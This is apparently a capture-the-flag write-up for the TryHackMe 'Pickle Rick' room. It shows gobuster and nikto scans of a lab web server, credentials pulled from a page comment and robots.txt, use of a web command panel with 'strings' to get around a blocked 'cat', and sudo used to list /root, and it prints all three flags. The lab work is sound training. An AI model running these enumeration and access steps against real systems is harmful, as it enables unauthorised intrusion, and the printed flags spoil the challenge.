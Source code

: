 [< Back to All CTFs](https://github.com/KrisLloyd/Python/tree/master/CTF#ctf-solves)

[< Back to AE CTF](https://github.com/KrisLloyd/Python/tree/master/CTF#ae-ctf---tryhackme-april-2021)
***

# Pickle Rick

![Exfil Challenge](PickleRick.PNG)

### Challenge:
##### This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.
##### 90 Points Total, 30 per question

### Solve:

Since this was a webserver challenge, the first step was to open the provided IP address (10.10.117.3) in a web browser. The landing page suggested that I need to gain access to the system and discover the 3 special ingredients (flags).

![Webpage](webpage.PNG)

Checking the source code of the web page was the next obvious choice. Hidden in the <body> tag was a <div> that contained a comment with the username.
  
```html
<!--Note to self, remember username! Username: R1ckRul3s-->
```
Great, half-way there! The next step is the getting the password. The challenge task suggests that 'dirbuster' should be used, so that was my next choice.

![dirb](dirb.PNG)

```bash
root@ip-10-10-150-158:~# gobuster dir -u http://10.10.117.3 -w /root/Desktop/Tools/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.117.3
[+] Threads:        10
[+] Wordlist:       /root/Desktop/Tools/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/04/21 15:19:50 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/assets (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)
===============================================================
2021/04/21 15:19:50 Finished
===============================================================
```
Ok, these are some exciting results. Checking out the results, only the robots.txt contained anything that I would deem to be usefull. The page contained a single string:

```
Wubbalubbadubdub
```

Ok, I assume this is most likely the password. Lets try and ssh into the machine and see what we can find.

```bash
root@ip-10-10-150-158:~# ssh R1ckRul3s@10.10.117.3
R1ckRul3s@10.10.117.3: Permission denied (publickey).
```

That didn't work. Time to try something else. The attack VM contains a folder of tools for web, and included in that was a tool for Nikto. Checking the [Kali description](https://tools.kali.org/information-gathering/nikto) for Nikto, it says its an 'Open Source (GPL) web server scanner', that sounds exactly like ehat I need. Lets see if it turns up something interesting.

```bash
root@ip-10-10-150-158:~# nikto -h http://10.10.117.3
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.117.3
+ Target Hostname:    ip-10-10-117-3.eu-west-1.compute.internal
+ Target Port:        80
+ Start Time:         2021-04-21 15:35:30 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x426 0x5818ccf125686 
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ "robots.txt" retrieved but it does not contain any 'disallow' entries (which is odd).
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 6544 items checked: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2021-04-21 15:35:39 (GMT1) (9 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```
Bingo! Looks like there is a `/login.php` page, lets see what we've got.

![Login Page](LoginPage.PNG)

Using the username `R1ckRul3s` and password `Wubbalubbadubdub` granted access! Taking a look around, it looks like the page lands on the **Command Panel** tab, checking any of the other tabs just gives the same response:

![Command Panel](Command.PNG)

![Other Tabs](Tabs.PNG)

Assuming the command panel operates like the shell, I entered the **ls** command as a test and got some very interesting output:

```bash
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

However, trying to read any of the files using cat provided another road block. Disabled commands:

![Disabled Commands](Disabled.PNG)

Thankfully there's more than one way to read strings, by using **strings**! That got the first answer out of the way. I also read the **clue.txt** for hints on any other locations:

```bash
mr. meeseek hair
```

```
(clue.txt)
Look around the file system for the other ingredient.
```

Ok, where else could data be hidden. **whoami** shows that I'm a non-user account **www-data**. Since this is Rick's computer, he must have an account, lets see if there is anything on his account. In the home directory of the **rick** user, there is a file called **second ingredients**, using the same **strings** method as the first ingredient provided the second:


```bash
(/home/rick/"second ingredient")
1 jerry tear
```

2 out of 3 down, one more to go. My next step is root, CTFs always hide stuff in root. The **www-data** shouldn't have access to the root folder by default, so let's try and switch users. Performing **sudo su** to switch to any user doesn't seem to work, switchint ro **rick**, **ubuntu**, and **root** didn't go through. Let't just try using **sudo** to **ls** the root directory:

```bash
3rd.txt
snap
```

Paydirt! lets see what it says:

```bash
(3rd.txt)
3rd ingredients: fleeb juice
```




### Flag

**First ingredient:**
```
mr. meeseek hair
```
**Second ingredient:**
```
1 jerry tear
```
**Third ingredient:**
```
3rd ingredients: fleeb juice
```
